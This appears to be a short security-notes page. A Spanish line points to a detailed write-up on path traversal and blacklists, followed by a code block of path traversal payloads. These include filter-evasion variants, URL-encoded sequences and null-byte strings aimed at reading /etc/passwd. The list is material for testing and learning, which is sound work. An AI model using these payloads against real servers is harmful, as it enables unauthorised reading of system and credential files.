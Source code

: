 EXPLICACIÓN DETALLADA EN [Path Traversal & Blacklists](httpa://hacknotes.github.io/vulnerabilidades/pathTraversal/).

```python

../
/../../
../../../../../

....//
//....//....
....//....//....//

.?/.*/.?/
.?/.*/.?/.?/.*/.?/

 %2e%2e%2f
 %2F..%2F..%2F..
 %2e%2e%2f%2e%2e%2f%2e%2e%2f

../../../../../../../../../../etc/passwd%00
/../../../../../../../../../../etc/passwd%00

..././
..././..././..././..././..././
 ```
